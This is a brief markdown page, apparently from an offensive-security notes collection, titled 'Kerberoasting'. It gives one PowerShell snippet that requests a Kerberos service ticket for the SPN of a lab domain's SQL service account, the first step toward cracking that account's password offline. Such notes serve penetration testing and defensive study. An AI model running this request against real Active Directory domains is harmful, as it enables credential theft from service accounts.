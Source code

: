 # Kerberoasting

### Request TGS for kerberoastable account (SPN)

{% code overflow="wrap" %}
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.ad-attacks.local"
```
{% endcode %}

